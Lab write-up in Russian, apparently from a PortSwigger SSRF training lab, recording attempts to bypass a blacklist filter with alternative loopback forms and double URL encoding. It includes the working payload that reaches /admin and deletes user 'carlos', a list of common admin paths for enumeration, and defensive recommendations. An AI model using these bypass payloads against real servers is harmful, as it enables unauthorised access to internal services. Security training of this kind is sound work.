




обход простой защиты
например могут блокироваться  вводы 
`127.0.0.1` and `localhost`
или /admin

Все адреса в диапазоне `127.0.0.0/8` (от `127.0.0.1` до `127.255.255.254`) указывают на локальную машину, но `127.0.0.1` используется по умолчанию.

В программировании иногда IP хранят как числа для экономии памяти или вычислений.

==017700000001== тоже самое что и 127.0.0.1 (Это **восьмеричное представление**)

==**`2130706433== `**  тоже самое что и 127.0.0.1 (Это **десятичное представление** )

==127.1 ==— это тоже самое 127.0.0.1  

----

бывает что изменение с `http:` на  `https:` может обойти фильтр примитивный

лаба: https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

задача  лабы - попасть в админ панель и удалить юзера карлос

---
# SSRF с входным фильтром на основе черного списка
---

заметил что слова  localhost и admin  блокируются - но двойная URL кодировка смешанная с одинар URL кодировкой  пропускает

http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2F2130706433%2F%61%64mi%25%36%65%2Fcheck%3FproductId%3D2%26storeId%3Dz

2130706433  это 127.0.0.1
017700000001   это 127.0.0.1

%2F%61%64mi%25%36%65     это админ в двойной  смешан кодировке

loc%61lho%25%37%33%25%37%34%25%32%30   это localhost в двойной смешан кодировке

этот запрос для него валиден (работает как оригинал - вернет число товаров)

то есть если сервер последовательно проверял кодировку за кодировкой то и при первичной кодировке он не получил admin  ни после второй раскодировки

http%3A%2F%2F2130706433%2F%61%64mi%25%36%65      = http://2130706433/admin   нет

http%3A%2F%2Floc%61lho%25%37%33%25%37%34/%2F%61%64mi%25%36%65 нет

http%3A%2F%2F2130706433/%61%64mi%25%36%65 нет

http%3A%2F%2F017700000001/%61%64mi%25%36%65  нет и с кодир URL эт запроса тоже нет

http%3A%2F%2F017700000001/%61%64mi%25%36%65  нет и с кодир URL эт запроса тоже нет

http%3A%2F%2Fstock.weliketoshop.net%3A8080%2F%2F2130706433%2F%61%64mi%25%36%65 нет

http%3A%2F%2Fstock.weliketoshop.net%3A8080%2F%2F017700000001%2F%61%64mi%25%36%65

http%3A%2F%2Fstock.weliketoshop.net%3A8080%2F%2F%25%33%30%25%33%31%25%33%37%25%33%37%25%33%30%25%33%30%25%33%30%25%33%30%25%33%30%25%33%30%25%33%30%25%33%31%2F%61%64mi%25%36%65 нет

-------

http%3A%2F%2Fstock.weliketoshop.net%3A8080%2F%2Floc%61lho%25%37%33%25%37%34%25%32%30%2F%61%64mi%25%36%65  нет

этот запрос выдал нестандартный 400 ответ 

использовал:
%2F%61%64mi%25%36%65     это админ в двойной  смешан кодировке

loc%61lho%25%37%33%25%37%34%25%32%30   это localhost в двойной смешан кодировке

http%3A%2F%2Floc%61lho%25%37%33%25%37%34%25%32%30%2F%61%64mi%25%36%65 
ответ нет

http%3A%2F%2Floc%61lho%25%37%33%25%37%34%25%32%2F%61%64mi%25%36%65  нет

----

>аллилуя! 
stockApi=http%3A%2F%2F127.1%2F%2561dmin
 сработал и пусти в админку меня - остальные запросы давали ответ 400

# смылс такой что сервер блокировал все возможные варианты 127.0.0.1 в разных кодировках
# но сокращенное его значение 127.1 было возможно использовать даже в чистом виде!

stockApi=http%3A%2F%2F%31%32%37%2e%31%2F%2561dmin 
127.1 c url кодировкой тоже работает (естественно)

вот теперь перехваченный запрос на удаление пользователя (что нужно по заданию)
теперь я вижу диррект для удаления юзера

подставил путь delete?username=carlos
в работающий запрос к админке 
http%3A%2F%2F%31%32%37%2e%31%2F%2561dmin 

итого:
==stockApi=http%3A%2F%2F%31%32%37%2e%31%2F%2561dmin%2Fdelete?username=carlos==

и сервер выполнил что я от него просил!

---

ИТОГО:

1. **Фильтр был "умным", но не идеальным**: Он блокировал все популярные представления `127.0.0.1` (десятичное, восьмеричное), но пропустил **сокращённую форму `127.1`**.
    
2. **Ключевая техника — смешанное кодирование**: Фильтр проверял данные после _первого_ раунда декодирования. Ваша полезная нагрузка `%2561dmin` после первого декода превращалась в `%61dmin` (где `admin` не видно), а внутренний сервер, выполняя второй декод, уже получал нужный путь `/admin`.
    
3. **Атака прошла в два этапа**:
    
    - **Обход IP-фильтра**: Использование `127.1` (или его URL-кодированной версии `%31%32%37%2e%31`).
        
    - **Обход фильтра пути**: Использование `%2561dmin` для сокрытия слова `admin`.

--------

# ВЫВОДЫ

**1. КРАТКО**

> В приложении обнаружена критическая уязвимость типа "Подделка межсерверных запросов" (SSRF), позволяющая злоумышленнику взаимодействовать с внутренними компонентами системы, включая административный интерфейс. Фильтр ввода, призванный блокировать такие атаки, был успешно обойден за счёт неполного чёрного списка и непоследовательной обработки URL-кодирования.

*сервер отвечал одинаково на неверные запросы, не выдавая даже 500 ошибки
что как бы заставляло действовать в слепую*

*хорошо, что не запускал бут форс - так как логикой было проще понять ситуацию*

*для себя замечание - нужно четко поочередно проверять каждую гипотезу и заметки делать - составлять схему атаки, чтобы четко видеть все векторы своей атаки*

>стоит отметить что в задании лабы явно сказано что адресс админ панели по адрессу:
>http://localhost/admin
>что уже как бы почти решенная задача
>в реал жизни же придется искать вручную эти адреса перебором!
>

**2. ОСНОВНАЯ ПРИЧИНА И РИСКИ**

> **Коренная причина**: Использование **неполного ("чёрного списка")** и **неконтекстного** фильтра для валидации пользовательского ввода. Фильтр блокировал явные значения 
> (`127.0.0.1`, `localhost`), но не учитывал все возможные альтернативные представления 
> (`127.1`) и возможность многоуровневого декодирования.
    
- **Бизнес-риски**:
    
     **Несанкционированный доступ к данным**: Атакующий может получить доступ к внутренним API, панелям управления (например, `/admin`) или служебным портам.
        
    - **Компрометация всей системы**: Через уязвимость можно атаковать другие внутренние сервисы, невидимые из внешней сети, что может привести к полному захвату контроля.
        
    - **Цепные атаки**: SSRF может стать первым шагом для более сложных атак, таких как обход межсетевых экранов или чтение метаданных облачных сред.
        

**3. КЛЮЧЕВЫЕ РЕКОМЕНДАЦИИ (Что делать?)**

- **Отказаться от чёрных списков в пользу белых**. Вместо того чтобы пытаться угадать все плохие варианты, разрешайте только строго определённый набор ожидаемых значений (например, конкретные домены или диапазоны IP-адресов).
    
- **Единообразно валидировать и нормализовывать ввод**. Применять канонизацию (приведение к единому виду) и валидацию к пользовательским данным **только один раз**, на самом раннем этапе обработки, до каких-либо проверок.
    
- **Использовать сегментирование сети**. Критически важные внутренние сервисы (как admin-панель) должны быть изолированы в отдельном сетевом сегменте, недоступном для запросов от внешних или фронтенд-серверов.
    
- **Внедрить обязательную аутентификацию** для всех внутренних API и административных функций, даже если они считаются "доступными только внутри сети".

- внедрить ограничение на число запросов с  конкрет ip (подозрит активность - блокировка)   
    

**4. ДЛЯ РАЗРАБОТЧИКОВ: ЧЕМУ УЧИТ ЭТОТ КЕЙС**

> Данный случай демонстрирует, что безопасность, основанная на сокрытии (security through obscurity) черных списков и простом сопоставлении строк, неэффективна. Злоумышленник всегда найдет обходной путь. Защита должна строиться на принципах **явного разрешения (whitelisting)** и **строгой архитектурной изоляции**.

### Вот пример типичных  адрессов для админки (которые известны всем на свете конечно же...)

| Категория                      | Примеры путей (выборочно из списков SecLists)                                                                                     |
| ------------------------------ | --------------------------------------------------------------------------------------------------------------------------------- |
| **Стандартные англ.**          | `admin`, `administrator`, `panel`, `dashboard`, `control`,  `admin-login`, `system`, `console`, `user`, `secure`                  |
| **CMS WordPress**              | `wp-admin`, `wp-login.php`, `wp-content`, `wp-includes`, `login.php`, `admin.php`, `dashboard.php`                                |
| **CMS Joomla**                 | `administrator`, `joomla/administrator`, `admin/index.php`, `component/users`                                                     |
| **CMS Drupal**                 | `user/login`, `user/register`, `admin/config`, `admin/dashboard`                                                                  |
| **Другие CMS/Frameworks**      | `adminer`, `phpmyadmin`, `myadmin`, `database`, `manager/html`, `webdav`, `_admin`, `_panel`                                      |
| **Пути с расширениями**        | `admin.cgi`, `admin.jsp`, `admin.aspx`, `admin.action`, `admin.do`, `admin.py`                                                    |
| **Вариации регистра**          | `Admin`, `ADMIN`, `AdMiN`, `aDmIn`                                                                                                |
| **Защищённые/скрытые**         | `.admin`, `private`, `hidden`, `secret`, `restricted`, `internal`, `staff`, `sysadmin`, `root`                                    |
| **API/Служебные**              | `api/admin`, `v1/admin`, `internal`, `debug`, `env`, `config`, `.env`, `.git`, `.svn`, `.htaccess`                                |
| **Актуальные тренды (2020-е)** | `admin123`, `adminarea`, `adminpanel`, `adminportal`, `admincenter`, `superadmin`, `sysadmin`, `platform-admin`, `platform/login` |
